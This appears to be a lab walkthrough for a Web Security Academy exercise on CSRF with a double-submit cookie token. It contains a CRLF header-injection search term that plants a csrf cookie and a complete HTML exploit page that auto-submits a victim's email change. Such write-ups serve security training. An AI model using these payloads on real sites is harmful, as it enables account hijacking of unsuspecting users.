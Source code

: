 # Lab: CSRF where token is duplicated in cookie

> Lab Objective: use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
> Note: My Login Credentials are `wiener:peter`

- Firstly, I'll login with my credentials `wiener:peter`.
  ![1st Screenshot](./Photos/1.png)

- Then change the email to `test@gmail.com`.
  ![2nd Screenshot](./Photos/2.png)

- While viewing the Request through Burp Suite, I've noticed that the application uses a **_CSRF Parameter_** and a **_CSRF Cookie_**, also **_they have the same value_**.
  ![3rd Screenshot](./Photos/3.png)

- After Several trials to bypass the csrf token (like, removing only the value, or remove the parameter and it's value), all of the trials results in `400 Bad Request`, therefore CSRF Parameter and CSRF Cookie are tied to each other.
  ![4th Screenshot](./Photos/4.png)

- But I've tried to make the values of both CSRF Parameter and CSRF Cookie any arbitrary value like `testabc`.

- You'll notice that the request results in `302 Found`.
  ![5th Screenshot](./Photos/5.png)

- Therefore, I'll try to find a place in the application where I can set the csrf cookie for the victim in order to exploit the CSRF.

- In the home page when you search for `test`, then view the request in Burp Suite, You'll see that the value is reflected in the response headers.
  ![6th Screenshot](./Photos/6.png)

- To Set my own cookie in the victim browser through this place, I'll use the following term as search term:

```
test;%0d%0aSet-Cookie:csrf=myOwnValueForCSRFCookie;SameSite=None
```

- Therefore, the crafted payload will be:

```html
<body>
  <form
    method="POST"
    action="https://0a55003f04d7d83583083735000300ca.web-security-academy.net/my-account/change-email"
  >
    <input name="email" value="changed-email@gmail.com" />
    <input name="csrf" value="myOwnValueForCSRFCookie" />
  </form>
  <img
    src="https://0a55003f04d7d83583083735000300ca.web-security-academy.net/?search=test;%0d%0aSet-Cookie:csrf=myOwnValueForCSRFCookie;SameSite=None"
    onerror="document.forms[0].submit()"
  />
</body>
```

- Finally, the lab is solved successfully.
  ![7th Screenshot](./Photos/7.png)

---
